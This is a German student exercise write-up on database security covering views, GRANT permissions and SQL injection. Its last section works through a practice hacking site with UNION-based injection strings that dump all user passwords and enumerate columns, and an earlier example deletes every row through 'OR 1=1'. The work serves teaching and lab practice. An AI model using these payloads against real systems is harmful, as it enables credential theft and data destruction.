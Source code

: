 # Übung DS: Datensicherheit

Gruppe 8: Lukas Arnold, Patrick Bucher, Christopher James Christensen, Jonas Kaiser, Melvin Werthmüller

## 1. Selbststudium

### Frage 1

Was heisst Datensicherheit?

- Der Begriff Datensicherheit umfasst technische und softwaregestützte
  Massnahmen zum Schutz der Daten vor Verfälschung, Zerstörung und Verlust.

### Frage 2

Welche Rolle spielen Sichten für die Datensicherheit?

- Mithilfe von Sichten (Views) können Ausschnitte aus Tabellen mittels
  `SELECT`-Statements definiert werden.
- Der Zugriff der Benutzer auf die Datenbank kann eingeschränkt werden, indem
  man den Zugriff auf bestimmte Sichten beschränkt und den Zugriff auf die
  zugrundeliegende(n) Tabelle(n) sperrt.
- Das einer Sicht zugrundeliegende SQL-`SELECT`-Statement kann die sichtbaren
  Spalten über die Projektion (`SELECT …`), die sichtbaren Zeilen über die Selektion
  (`WHERE …`) einschränkten.

### Frage 3

Was heisst Grant? Was heisst Grant Option?

- `GRANT` ist der Name des SQL-Befehls, mit welchem man einem Benutzer oder
  einer Benutzergruppe bestimmte Berechtigungen auf bestimmte Datenbankobjekte
  (Tabellen, Views etc.) geben kann.
- Fügt man einer `GRANT`-Operation die Klausel `WITH GRANT OPTION` hinzu, erhält
  der jeweilige Benutzer (bzw. die jeweilige Benutzergruppe) nicht nur die darin
  spezifizierte Berechtigung, sondern auch die Möglichkeit, diese Berechtigung
  auf weitere Benutzer auszudehnen.

### Frage 4

Was ist SQL-Injection? Wie schützt man sich davor?

- SQL-Injection ist das Ausnutzen von mangelhaft abgesicherten, parametrisierten
  SQL-Anfragen einer Anwendung.
- Dabei wird ein Parameter einer SQL-Anfrage nicht nur -- wie vom Programmierer
  gewünscht -- mit einem Wert des entsprechenden Datentyps besetzt, sondern mit
  einer vom Angreifer injizierten Zeichenkette, z.B. einer erweiterten Bedingung
  oder gar einem ganzen SQL-Befehl.
- Beispiel:
    - Eine Webapplikation enthält dieses SQL-Statement:
        - `DELETE FROM user WHERE id = `
    - Als `username` wird eine Zeichenkette aus dem Query-String erwartet:
        - `/?action=delete&id=42`
    - Stattdessen sendet der Aufrufer folgende Anfrage:
        - `/?action=delete&id=42%20COR%20C1=1`
    - Daraus erstellt die Webapplikation folgendes SQL-Statement:
        - `DELETE FROM user WHERE id = 42 OR 1=1`
    - Da die Bedingung `1=1` für alle Datensätze zutrifft, werden sämtliche
      Einträge der Tabelle `user` gelöscht.

## 2. Views und Grants

### 1. Benutzer erstellen

```sql
create user 'Sokrates' identified by '@Sokrates';
create user 'Russel' identified by '@Russel';
create user 'Kopernikus' identified by '@Kopernikus';
create user 'Popper' identified by '@Augustinus';
create user 'Augustinus' identified by '@Augustinus';
create user 'Curie' identified by '@Curie';
create user 'Kant' identified by '@Kant';
```

### 2. Views erstellen

```sql
create view view_c4 as
    select vorlesungen.* from vorlesungen inner join
    professoren on (vorlesungen.gelesenVon = professoren.PersNr)
    where professoren.Rang = 'C4';

create view view_c3 as
    select vorlesungen.* from vorlesungen inner join
    professoren on (vorlesungen.gelesenVon = professoren.PersNr)
    where professoren.Rang = 'C3';
```

### 3. Rechte vergeben

```sql
select Name from professoren where Rang = 'C4';
```

    Sokrates
    Russel
    Curie
    Kant

```sql
grant select, insert, update, delete on view_c4 to Sokrates;
grant select, insert, update, delete on view_c4 to Russel;
grant select, insert, update, delete on view_c4 to Curie;
grant select, insert, update, delete on view_c4 to Kant;

grant select on view_c3 to Sokrates;
grant select on view_c3 to Russel;
grant select on view_c3 to Curie;
grant select on view_c3 to Kant;
```

```sql
select Name from professoren where Rang = 'C3';
```

    Kopernikus
    Popper
    Augustinus

```sql
grant select, insert, update, delete on view_c3 to Kopernikus;
grant select, insert, update, delete on view_c3 to Popper;
grant select, insert, update, delete on view_c3 to Augustinus;
```

### 4. Test
 
Mit einem Professoren-Benutzer des Ranges C4:

```bash
mysql -u Sokrates -p@Sokrates
```

```sql
use uni;
show tables;
```

    view_c3
    view_c4

Sokrates sieht nur die Tabellen (bzw. Views), für welche er explizit Rechte
erhalten hat!

```sql
update view_c4 set Titel = 'Metastrukturdekonstruktion' where Titel = 'Bioethik';
/*
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
*/

update view_c3 set Titel = 'Postmoderne Wissenschaftstheorie'
    where Titel = 'Der Wiener Kreis';
/*
ERROR 1142 (42000): UPDATE command denied to user 'Sokrates'@'localhost'
for table 'view_c3'
*/
```

Mit einem Professoren-Benutzer des Ranges C3:

```bash
mysql -u Augustinus -p@Augustinus
```

```sql
use uni;
show tables;
```

    view_c3

```sql
update view_c3 set Titel = 'Postmoderne Wissenschaftstheorie'
    where Titel = 'Der Wiener Kreis';
/*
Query OK, 1 row affected, 1 warning (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 1
*/
```

Die Warnung stammt daher, dass die Spalte Titel mit dem Typ `varchar(30)`
definiert ist und der neue Vorlesungstitel abgeschnitten wird.

## 3. SQL Injection

Hackit: [http://hackit.gehaxelt.in/sqli/level1.php](SQL Injection Level 1)

Mit diesem Query-String kann man das Passwort eines Benutzers anhand dessen `id` anzeigen:

    id=0+union+select+id,passwort+as+username,1,1,1+from+user+where+id=3

Für Abfragen mit `UNION` ist es wichtig, die Anzahl zurückgegebener Spalten zu
kennen. Dies habe ich erraten, indem ich jeweils ein `,1` zusätzlich selektiert
habe.

Die Spaltennamen habe ich auch erraten, sie liessen sich aber auch über das
`information_schema` ermitteln, indem man die Spalten anhand der
`ordinal_number` ausgibt (Zeilenumbrüche nur aus optischen Gründen vorhanden):

    id=0+union+select+id,
    (select+cols.col+from+
    (select+ordinal_position,column_name+as+col+from+information_schema.columns+
    where+table_name=%27user%27+and+ordinal_position=1)+as+cols)+as+username,1,1,1+from+user

Sämtliche IDs kann man so herausfinden:

    id=0+union+select+id,GROUP_CONCAT(id)+as+username,1,1,1+from+user

Und so sämtliche Passwörter:

    id=0+union+select+id,GROUP_CONCAT(passwort)+as+username,1,1,1+from+user

Wichtig ist, dass man der gewünschten Information den alias-Namen `username`
vergibt, denn dieser Wert wird auf der Seite dargestellt.

Hier ist die ganze Tabelle `user`:

    id  username  passwort
    --  --------  --------
     1  adminer   me_as_a_admin 
     2  rooter    dont_know_me
     3  test      password_to_weak    
